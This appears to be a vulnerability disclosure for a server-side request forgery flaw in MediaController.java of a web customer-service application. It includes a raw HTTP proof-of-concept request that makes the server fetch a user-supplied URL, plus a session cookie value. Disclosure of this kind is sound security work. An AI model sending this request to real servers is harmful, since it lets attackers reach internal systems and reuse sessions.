

In the file `com/ukefu/webim/web/handler/resource/MediaController.java`, there is code that allows the server to make requests to a URL provided by the user. This behavior can lead to a **Server-Side Request Forgery (SSRF)** vulnerability.



Poc:

```
GET /res/url?url=http://www.baidu.com HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: remember-me=YWRtaW46MTc0MzA2NTA3NDE2MjphZmU1NjA2MWRlNWVhM2YzNGI0Y2Y0N2ZjM2YyMzNlNQ
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i


```

